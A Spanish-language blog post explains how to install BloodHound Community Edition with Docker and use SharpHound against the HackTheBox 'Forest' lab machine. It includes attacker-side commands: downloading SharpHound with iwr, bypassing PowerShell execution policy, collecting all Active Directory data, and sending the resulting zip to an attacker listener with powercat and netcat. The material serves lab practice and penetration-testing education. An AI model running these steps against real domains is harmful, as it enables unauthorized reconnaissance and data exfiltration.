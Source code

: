 
---
title: "Cómo Configurar BloodHound Community Edition"
summary: "Explicación rápida sobre cómo poner en funcionamiento BloodHound en unos minutos. Esta publicación incluye una guía de instalación paso a paso de **BloodHound**, así como la descarga de **SharpHound** y su carga en una máquina para mapear una red de Active Directory."
categories: ["Post","Blog",]
tags: ["post","bloodhound","sharphound"]
#externalUrl: ""
#showSummary: true
draft: false
date: 2025-01-11

---

## BloodHound 
**BloodHound** es una herramienta poderosa y ampliamente utilizada en el campo de la ciberseguridad, particularmente para los evaluadores de penetración en entornos corporativos. Está diseñada para mapear y analizar las estructuras de Active Directory, ayudando a identificar configuraciones de seguridad incorrectas y posibles rutas de ataque que un adversario podría explotar para escalar privilegios u obtener acceso a recursos confidenciales.

**BloodHound** opera mediante la recopilación y visualización de relaciones dentro de un dominio de AD. Estas relaciones incluyen membresías de grupos, permisos de usuario, relaciones de confianza y más. La fortaleza de la herramienta radica en su capacidad para descubrir cadenas complejas de privilegios que podrían ser invisibles para los administradores que auditan manualmente la seguridad de AD.

Realizaremos una instalación rápida paso a paso de la versión comunitaria de **BloodHound**, así como un pequeño tutorial paso a paso sobre cómo ejecutar **BloodHound** y **SharpHound** tomando como ejemplo la máquina [Forest](https://s3ntinl.github.io/pt-pt/posts/forest/) de HackTheBox. ¡Échale un vistazo si aún no lo has hecho a mi post!

¡Comencemos!

- - -
## Instalación
Primero, necesitamos instalar _Docker_:

```bash
kali@kali:~$ sudo apt install -y docker.io

kali@kali:~$ sudo systemctl enable docker --now
```

Luego, crea el grupo _docker_ si no existe:

```bash
kali@kali:~$ sudo groupadd docker
```

Añade tu usuario al grupo _docker_:

```bash
kali@kali:~$ sudo usermod -aG docker $USER
```

Ahora, instala **docker-compose** desde [github](https://github.com/docker/compose/). Además, recuerda otorgarle derechos de ejecución al binario y agregarlo al directorio `/usr/bin`.

```bash
kali@kali:~$ mv ./docker-compose-linux-aarch64 docker-compose
kali@kali:~$ chmod +x ./docker-compose
kali@kali:~$ mv ./docker-compose /usr/bin/
```

Por último, necesitamos copiar el archivo `docker-compose.yml` de **BloodHound** para guardarlo localmente:

```bash
kali@kali:~$ sudo wget https://ghst.ly/getbhce -O docker-compose.yml
kali@kali:~$ docker-compose up
```

**BloodHound** estará disponible en el puerto 8080.
- - -
## SharpHound
**SharpHound** es el componente de recopilación de datos de BloodHound. Es una herramienta de C# diseñada para recopilar información de entornos de Active Directory, que luego BloodHound utiliza para mapear y analizar rutas de ataque. SharpHound recopila datos como sesiones de usuario, membresías de grupos, listas de control de acceso (ACL) y relaciones de confianza, lo que brinda a los evaluadores de penetración y analistas de seguridad una vista detallada del entorno.

Los datos recopilados se almacenan en archivos JSON, que luego se importan a BloodHound para visualización y análisis. Juntos, SharpHound y BloodHound son un dúo poderoso para identificar y comprender las debilidades de seguridad en los dominios de AD.

- - -
## Uso de BloodHound y SharpHound

Primero, iniciemos sesión en **BloodHound**. Ya lo tenemos en ejecución, por lo que debemos acceder a él en `http://localhost:8080`.

![bloodhound1](/img/bloodhound/bloodhound1.png)

> La primera vez que accedamos a **BloodHound**, necesitaremos ingresar la contraseña generada aleatoriamente que se encuentra en la ventana de terminal donde se está ejecutando `docker-compose`. Luego, necesitaremos cambiarla. El usuario predeterminado es **admin**.

![bloodhound9](/img/bloodhound/bloodhound9.png)

Ahora, en la pestaña _Descargar recopiladores_, podemos descargar la última versión de **SharpHound**:

![bloodhound3](/img/bloodhound/bloodhound3.png)

Aquí, selecciona **SharpHound**, ¡y estamos casi listos para comenzar a recopilar datos! Solo quedan unos pocos pasos más:

![bloodhound4](/img/bloodhound/bloodhound4.png)

A continuación, carga el ejecutable **SharpHound** en la máquina Windows cuyo Active Directory deseas mapear. Desde nuestra máquina atacante, servimos **SharpHound** desde un servidor _Python_:

```bash
┌──(s3n㉿kali)-[/opt/bloodhound/sharphound]
└─$ python3 -m http.server 80

Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Desde la máquina Windows, descargamos **SharpHound** con el siguiente comando:

```powershell
PS C:\Users\svc-alfresco\Desktop> iwr -uri http://10.10.14.18/SharpHound.ps1 -Outfile SharpHound.ps1
```

Después de transferirlo a la máquina Windows, podemos importarlo a PowerShell:

```powershell
PS C:\Users\svc-alfresco\Desktop> powershell -ep bypass

PS C:\Users\svc-alfresco\Desktop> Import-Module .\Sharphound.ps1
```

Ahora, podemos ejecutar el script para recopilar toda la información del dominio. **SharpHound** se basa principalmente en consultas `LDAP` para recopilar datos de Active Directory. Dado que las consultas LDAP son una parte estándar de la comunicación de dominio, cualquier usuario autenticado en el dominio puede ejecutarlas, por lo que SharpHound no requiere privilegios administrativos para la mayoría de sus operaciones.

```powershell
PS C:\Users\svc-alfresco\Desktop> Invoke-BloodHound -CollectionMethod All -OutputDirectory C:\Users\svc-alfresco\Desktop\ -OutputPrefix "forest"
```

Después de la ejecución, veremos un archivo **zip** con toda la información. Eso es lo que necesitamos transferir de vuelta a nuestra máquina atacante. El archivo .bin que **BloodHound** genera es un archivo binario que se utiliza como caché para datos preprocesados. Cuando importa archivos JSON recopilados por SharpHound en BloodHound, procesa los datos y los almacena en una base de datos Neo4j.

El archivo `.bin` sirve como caché local de estos datos procesados ​​para mejorar el rendimiento, pero no necesariamente necesitamos transferirlos de vuelta a nuestra máquina, por lo que lo ignoraremos.

```powershell
*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> ls


    Directory: C:\Users\svc-alfresco\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        1/10/2025   9:29 AM          43554 forest_20250110092905_BloodHound.zip
-a----        1/10/2025   9:15 AM        1942029 SharpHound.ps1

```

Podemos usar nuestro método de transferencia favorito, yo usaré `powercat.exe`:

```powershell
*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> powercat -c 10.10.14.18 -p 4444 -i C:\Users\svc-alfresco\Desktop\forest_20250110092905_BloodHound.zip
```

En nuestra máquina atacante, necesitamos abrir un receptor `netcat` para recibir los datos:

```bash
┌──(s3n㉿kali)-[/opt/bloodhound]
└─$ sudo nc -nlvp 4444 > bloodhound.zip
listening on [any] 4444 ...
connect to [10.10.14.18] de (DESCONOCIDO) [10.10.10.161] 50906
```

Una vez que tengamos el archivo zip en nuestra máquina, vamos a subirlo a **BloodHound**. Primero, presione la opción _Administración_.
![bloodhound2](/img/bloodhound/bloodhound2.png)

Importe el archivo zip en la opción _Ingesta de archivos_, en la sección _Recopilación de datos_:

![bloodhound10](/img/bloodhound/bloodhound10.png)

Haga clic y seleccione el archivo _zip_:

![bloodhound5](/img/bloodhound/bloodhound5.png)

¡Genial! Se subió con éxito.

![bloodhound6](/img/bloodhound/bloodhound6.png)

Enseñar cómo hacer consultas con **BloodHound** no está dentro del alcance de esta publicación, pero ejecutemos una consulta rápida "_Shortest Paths to Domain Admins_" para verificar si la ingesta de datos fue exitosa.
![bloodhound7](/img/bloodhound/bloodhound7.png)

¡Funciona! Ahora tiene una instancia de **BloodHound** completamente funcional y en funcionamiento, lista para mapear y analizar su entorno de Active Directory.

## Detener la instancia

Detener la instancia es tan fácil como presionar `Ctrl+C` en la ventana de terminal donde se está ejecutando `docker-compose`.

![bloodhound8](/img/bloodhound/bloodhound8.png)

Si desea configurarlo nuevamente, simplemente ejecute `docker-compose up` y estará listo.

Espero que esta guía te haya resultado útil para configurar todo sin problemas, ya que configurar un entorno de **BloodHound** puede ser complicado al principio. ¡Pruébalo!